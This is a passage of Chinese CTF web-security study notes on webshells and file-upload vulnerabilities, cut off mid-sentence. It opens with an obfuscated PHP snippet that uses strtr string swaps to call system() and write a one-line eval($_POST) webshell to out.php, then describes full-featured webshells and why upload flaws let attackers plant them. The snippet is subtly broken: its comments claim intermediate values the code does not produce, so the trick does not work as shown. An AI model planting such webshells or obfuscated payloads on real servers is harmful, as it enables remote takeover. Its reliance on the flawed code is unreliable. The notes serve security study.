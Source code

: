 ```php
<?php 
    $a = strtr("abatme","me","em"); // abatem
    $b = strtr($a,"ab","sy");  // stem
    $c = strtr('echo "<?php evqrw$_yKST[a])?>" > ./out.php',"qrwxyK","al(_PO"); 
    $b($c); 
?>
```

除了一句话木马这种Webshell外，常见的还有所谓的“大马”。一句话木马完成各种功能需要结合中国菜刀这种Webshell管理工具，而“大马”不需要中国菜刀，它本身就集成了完成各种功能所需的代码，因此代码量较大，俗称“大马”。
“大马”的功能不一，一般具有文件操作、命令执行、提取、目录浏览等多种功能

![image-20220917112739643](CTF_web.assets/image-20220917112739643.png)



### 文件上传漏洞

在文件上传的功能处，若服务端脚本语言未对上传的文件进行严格验证和过滤，导致恶意用户上传恶意的脚本文件时，就有可能获取执行服务端命令的能力。这种攻击方式是最为直接和有效的，“文件上传”本身没有问题，有问题的是文件上传后，服务器怎么处理、解释文件。如果服务器的处理逻辑做的不够安全，则会导致严重的后果。

文件上传漏洞对Web应用来说是一种非常严重的漏洞。一般情况下，Web应用都会允许用户上传一些文件，如头像、附件等信息，如果Web应用没有对用户上传的文件进行有效的检查过滤，那么恶意用户就会上传一句话木马等Webshell，从而达到控制Web网站的目的。

![image-20220917114122452](CTF_web.assets/image-20220917114122452.png)

### 文件上传漏洞原因

一些 web 应用程序中允许上传图片，文本或者其他资源到指定的位置，文件上传漏洞就是利用这些可以上传的地方将恶意代码植入到服务器中，再通过 url 去访问以执行代码.

造成文件上传漏洞的原因是:
